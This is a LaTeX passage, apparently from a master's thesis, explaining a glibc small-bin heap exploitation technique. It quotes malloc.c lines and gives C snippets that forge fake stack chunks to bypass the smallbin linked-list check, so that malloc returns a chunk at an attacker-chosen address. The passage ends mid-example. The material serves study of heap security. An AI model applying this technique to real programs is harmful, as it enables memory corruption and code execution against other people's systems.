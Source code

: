 \documentclass{masterthesis}
\newcommand*\sbs{small bins}
\newcommand*\mallocc{\lstinline{malloc}}
\begin{document}
This attack abuses the vulnerability inside \sbs{} to modify memory in any location. If we check the \mallocc{} source code, we can see there is a check for small chunk request, so, if the requested chunk fits inside the \sbs{} range, the heap manager use it.

\begin{lstlisting}[language=c,frame=tlrb]
if (in_smallbin_range (nb))
\end{lstlisting}

In the following we have below code. \footnote{\href{https://sourceware.org/git/?p=glibc.git;a=blob;f=malloc/malloc.c;h=f7cd29bc2f93e1082ee77800bd64a4b2a2897055;hb=9ea3686266dca3f004ba874745a4087a89682617\#l3635}{\texttt{malloc.c}, line 3635}}

\begin{lstlisting}[language=c,frame=tlrb]
bck = victim->bk;
if (__glibc_unlikely(bck->fd != victim)) {
	 errstr = "malloc(): smallbin double linked list corrupted";
	 goto errout;
}
set_inuse_bit_at_offset(victim, nb);
bck->fd = bin;
\end{lstlisting}

AS you can see if we have control over the victim bck pointer and bypass the security check, libc return our fake chunk on the next smallbin allocation. In other words, we can return a chunk to any address. Now we explain it in a real sample:

\begin{lstlisting}[language=c,frame=tlrb]
 intptr_t* stack_buffer_1[4] = {0};
 intptr_t* stack_buffer_2[3] = {0};
 intptr_t *victim = malloc(0x100);
 intptr_t *victim_chunk = victim-2;
\end{lstlisting}

At first, we allocate a small chunk, then calculate the actual address of the chunk by subtracting header size from the data section address like always.

\begin{lstlisting}[language=c,frame=tlrb]
 stack_buffer_1[0] = 0;
 stack_buffer_1[1] = 0;
 stack_buffer_1[2] = victim_chunk;

 stack_buffer_1[3] = (intptr_t*)stack_buffer_2;
 stack_buffer_2[2] = (intptr_t*)stack_buffer_1;
\end{lstlisting}
Now we forge a fake chunk, point the \lstinline{bck} pointer of \lstinline{buffer_1} to the victim, the fwd pointer of \lstinline{buffer_1} to \lstinline{buffer_2}, also, the bck pointer of \lstinline{buffer_2} to \lstinline{buffer_1}. In this way, we can bypass the \sbs{} security check.
\begin{lstlisting}[language=c,frame=tlrb]
void *p5 = malloc(1000);
free((void*)victim);
void *p2 = malloc(1200);
\end{lstlisting}
\end{document}
